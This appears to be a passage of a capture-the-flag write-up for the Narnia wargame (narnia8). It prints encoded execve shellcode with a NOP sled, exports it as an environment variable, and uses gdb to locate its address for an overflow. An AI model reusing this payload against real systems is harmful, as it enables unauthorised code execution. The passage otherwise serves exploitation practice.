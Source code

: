 Let create payload outside gdb , `exit`

Shellcode by Jonathan Salwan

```
\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81
```

```
Nop + Shellcode
```

Exploit , Copy this

```
\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81
```

```
narnia8@gibson:/narnia$ export SHELLCODE=$'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81'
```

Again go to gdb 

```
gdb narnia8 -q
(gdb) break main
(gdb) run
Breakpoint 1, 0x080491ed in main ()

(gdb) x/s *((char **)environ)
0xffffd502:	"SHELL=/bin/bash"

(gdb) x/s *((char **)environ+1)
0xffffd512:	"SHELLCODE=", '\220' <repeats 61 times>, "\353\021^1ɱ!\200l\016\377\001\200\351\001u\366\353\005\350\352\377\377\377k\fY\232Sgi.q\212\342Skii0cbti0cjo\212\344SRT\212\342\316\201"

but we need shellcode evn , so increment environ+1
(gdb) x/s *((char **)environ+1)
0xffffd512:	"SHELLCODE=", '\220' <repeats 61 times>, "\353\021^1ɱ!\200l\016\377\001\200\351\001u\366\353\005\350\352\377\377\377k\fY\232Sgi.q\212\342Skii0cbti0cjo\212\344SRT\212\342\316\201"

Note the Address 0xffffd512
(gdb) x/s 0xffffd512+5
0xffffd517:	"CODE=", '\220' <repeats 61 times>, "\353\021^1ɱ!\200l\016\377\001\200\351\001u\366\353\005\350\352\377\377\377k\fY\232Sgi.q\212\342Skii0cbti0cjo\212\344SRT\212\342\316\201"

(gdb) x/s 0xffffd512+10
0xffffd51c:	'\220' <repeats 61 times>, "\353\021^1ɱ!\200l\016\377\001\200\351\001u\366\353\005\350\352\377\377\377k\fY\232Sgi.q\212\342Skii0cbti0cjo\212\344SRT\212\342\316\201"

Note address 0xffffd51c
```
